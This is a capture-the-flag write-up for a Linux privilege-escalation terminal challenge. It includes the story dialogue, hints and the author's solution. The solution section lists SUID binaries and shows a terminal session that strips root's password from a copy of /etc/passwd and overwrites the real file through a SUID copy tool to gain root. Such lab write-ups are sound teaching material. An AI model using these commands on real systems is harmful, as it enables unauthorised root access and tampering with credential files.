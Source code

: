 <!-- report-keep -->

# linux-privesc <img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/>

<!-- report-ignore -->

[< Back Home](../README.md)

<!-- report-keep -->

## Objective

Rose mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

<!-- report-ignore -->

## Conversations

Rose Mold

Initial conversation:

- What am I doing in this saloon? The better question is: what planet are you from?
- Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.
- Whatever. Do you know much about privilege escalation techniques on Linux?
- You're asking why? How about I'll tell you why after you help me.
- And you might have to use that big brain of yours to get creative, bub.

After solving challengs:

- Yup, I knew you knew. You just have that vibe.
- To answer your question of why from earlier... Nunya!
- But, I will tell you something better, about some information I... found.
- There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
- The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
- That's all I got. K byyeeeee.
- Ugh... n00bs...

## Hints

- Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

<!-- report-keep -->

## Approach

For this approach, I first went through the normal Linux survey commands upon connection. Nothing really stood out, so I began looking for exploits related to the Linux distro which is Linux 3a7ac2253603 5.10.0-26-cloud-amd64.
Looking for exploits, there were some viable ones, but they would have taken some work. I spent some time reviewing [this](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/). I then pivoted to looking for a way to exploit SUID executables,
and found the following:

```console
elf@408ce566d9d0:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

At first, I went down some rabbit holes trying to think of a way to exploit one of those executables, so I went on to other challenges. I then had an epiphany - what if I grabbed the /etc/passwd file, copied it, modified the copied version so root doesn't use /etc/shadow/ and then used simplecopy to copy it back to /etc/passwd?

Exploit:
```console
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *

elf@ff34bc1d8894:~$ pwd
/home/elf
elf@ff34bc1d8894:~$ ls
HELP
elf@ff34bc1d8894:~$ cp /etc/passwd passwdcopy
elf@ff34bc1d8894:~$ sed -i 's;root:x:0:0:root:/root:/bin/bash;root::0:0:root:/root:/bin/bash;g' passwdcopy
elf@ff34bc1d8894:~$ /usr/bin/simplecopy passwdcopy /etc/passwd
elf@ff34bc1d8894:~$ su
root@ff34bc1d8894:/home/elf# cd /root
root@ff34bc1d8894:~# ls
runmetoanswer
root@ff34bc1d8894:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

When you execute runmetoanswer, your answer is case sensitive :)

## Resources

[Linux Privilege Escalation](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

